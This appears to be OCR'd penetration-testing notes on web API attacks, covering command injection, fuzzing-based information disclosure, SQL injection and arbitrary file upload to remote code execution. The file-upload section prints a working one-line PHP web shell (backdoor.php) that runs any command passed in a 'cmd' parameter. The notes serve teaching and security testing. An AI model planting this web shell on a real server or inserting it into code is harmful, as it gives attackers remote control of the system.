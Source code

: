 ## **Command Injection**:

- This allows command execution directly on the backend server.
- It's especially dangerous if the web service takes user-controlled input for executing commands.
- The goal is to manipulate the data to bypass and execute malicious commands.

**PHP Code Example**:

```
php
```

```
# ping-server.php
<?php
# ... (rest of the code)
?>

```

---

## **Information Disclosure**:

### Through Fuzzing:

- Information disclosure can occur due to API misconfigurations.
- Fuzzing helps uncover this.
- Consider using `ffuf` and the `burp parameter-names.txt` for parameter fuzzing.

### Through SQL:

- APIs can be vulnerable to SQL Injection.
- Use SQL payloads to test and exploit.

---

## **Arbitrary File Upload**:

- Similar to basic file uploads, but malicious files (like RCE) are uploaded.
- After uploading, they're executed to take control of the backend server.

**PHP File Upload via API to RCE**:

```
php
```

```
# backdoor.php

<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

```
